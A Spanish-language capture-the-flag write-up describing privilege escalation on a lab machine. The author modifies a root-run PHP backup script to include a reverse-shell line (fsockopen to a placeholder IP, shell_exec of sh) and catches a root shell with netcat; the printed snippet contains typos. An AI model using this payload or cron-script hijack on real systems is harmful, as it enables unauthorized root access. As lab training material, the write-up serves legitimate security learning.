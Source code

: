# Escalada de privilegios

Comencé a enumerar todos los directorios y archivos que encontraba, y me di cuenta, revisando el historia de bash, que había accedido anterior mente como administrador. Además encontré una carpeta que no es usual `scripts`, la revise y encontré un script en PHP, que al revisar los permisos me di cuenta que tenia permisos de `root`:

![](/images/opacity/Pasted image 20240716173134.png)

AL intentar ver mis privilegio, puede notar que no contaba con dichos permisos:

![](/images/opacity/Pasted image 20240716173431.png)

Luego de bastante tiempo investigando, me di cuenta que el script de Backup, se ejecutaba cada cierto tiempo, pero este lo hacia con privilegios de `root`, por lo que desde otro directorio, lo copie y modifique agregando la siguiente línea al código:

```php
sock=fscokopen("mi ip",puerto);shell_exec("sh <&3 >&3 2>&3");
```

1. **`fsockopen("mi ip",puerto);`**:
   
    - Esta función intenta abrir una conexión de socket a la dirección IP especificada (`"mi ip"`) y al puerto especificado (`puerto`).
    - `fsockopen` es una función PHP utilizada para crear una conexión a nivel de socket, que puede ser utilizada para interactuar con servicios de red.
    - La conexión de socket creada se asigna a la variable `$sock`.
2. **`shell_exec("sh <&3 >&3 2>&3");`**:
    
    - `shell_exec` es una función PHP que ejecuta un comando de shell.
    - El comando en sí es `sh <&3 >&3 2>&3`.
        - `sh`: Invoca el intérprete de comandos de shell.
        - `<&3`: Redirige la entrada estándar (stdin) del shell al descriptor de archivo 3.
        - `>&3`: Redirige la salida estándar (stdout) del shell al descriptor de archivo 3.
        - `2>&3`: Redirige la salida de error estándar (stderr) del shell al descriptor de archivo 3.
**Interpretación**
En resumen, este código PHP está intentando hacer lo siguiente:

1. **Abrir un socket a una dirección IP y puerto específicos**:
    
    - La función `fsockopen` establece una conexión de socket a un servidor remoto en la dirección IP y puerto especificados.
2. **Ejecutar un shell a través de ese socket**:
    
    - Utilizando `shell_exec`, se está intentando ejecutar un shell (`sh`) y redirigir las entradas y salidas del shell al descriptor de archivo 3.

![](/images/opacity/Pasted image 20240716175404.png)

Luego de ello, moví nuevamente el script a su directorio original, pero ahora ya incluye el Payload, por lo que cuando se ejecuta, debería establecer una Reverse shell con mi Kali, por lo que deje mi Kali a la Escucha con Netcat:

![](/images/opacity/Pasted image 20240717061240.png)

Así después de unos minutos, cuando se ejecuto el Script, puede tener acceso como usuario root, lo que me permitió ver la última bandera.


tHanks f0r read1ng w1th L0v3 Isu <3

And H4ppy H4cking!